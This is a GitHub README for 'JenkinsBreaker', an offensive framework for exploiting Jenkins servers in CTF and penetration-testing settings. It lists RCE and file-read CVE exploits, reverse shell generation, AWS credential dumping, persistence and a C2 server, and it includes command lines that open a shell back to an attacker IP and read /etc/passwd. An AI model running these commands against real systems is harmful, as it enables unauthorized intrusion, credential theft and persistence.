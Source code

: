 # JenkinsBreaker 🏴‍☠️  
An Advanced Python Offensive Security Framework for Jenkins Exploitation in CTF and Pentesting Scenarios  

---

## 🚀 Features  

- ✅ **Automated Enumeration & Exploitation** (`--auto` mode)  
- ✅ **Exploit Critical CVEs**:  
  - CVE-2019-1003029 / CVE-2019-1003030 – *Groovy Script RCE*  
  - CVE-2024-23897 – *Arbitrary File Read via CLI*  
  - CVE-2025-31720 / CVE-2025-31721 / CVE-2025-31722 – *Custom & Upcoming CVEs Included*  
- ✅ **Reverse Shell Payload Generation** (Bash, Python, Groovy, PowerShell, Metasploit Compatible)  
- ✅ **AWS Credential Dumping & Secrets Scanning**  
- ✅ **CSRF Crumb Handling & Automation**  
- ✅ **JWT Token Brute-Forcing and Analysis**  
- ✅ **Post-Exploitation Recon Automation** (Auto Upload & Execute linPEAS, pspy)  
- ✅ **Report Generation**: JSON, Markdown, PDF (via WeasyPrint)  
- ✅ **Built-in C2 Server (FastAPI) & Interactive WebSocket Shell (not functional with this release)**  
- ✅ **Persistence Techniques** (Cron Jobs, Jenkins Pipelines)  
- ✅ **Modular Exploit Loading** (`exploits/` Directory)  

---

## 📅 Coming Soon (Planned Features)  

- 🖥️ **Full Visual Interface** (TUI & Web UI) using *textual* and *fastapi*  
- 🎯 **Enhanced Plugin Fuzzer** with *ML-Based Misconfiguration Detection*  
- 📊 **Interactive Dashboards** for Exploit Results and Reporting  

---

## 📦 Installation  

```bash
git clone https://github.com/ridpath/heaplessNights.git
cd heaplessNights/JenkinsBreaker
python3 JenkinsBreaker.py --help  # Auto-creates virtualenv and installs dependencies
```
```bash
##⚔️ Example Usage
Automatic Enumeration & Exploitation:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --auto --lhost YOUR_IP --lport 4444

Run Specific CVE Exploit:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --exploit-cve --target-file /etc/passwd

Generate a Reverse Shell:
python3 JenkinsBreaker.py --generate-shell bash --lhost YOUR_IP --lport 4444

List All Available Commands:
python3 JenkinsBreaker.py --help-commands
```
## 📖 Note
This tool is under active development. A full-fledged UI will soon make managing exploits and post-exploitation workflows more intuitive. Stay tuned for upcoming releases!
Working through multiple bugs.




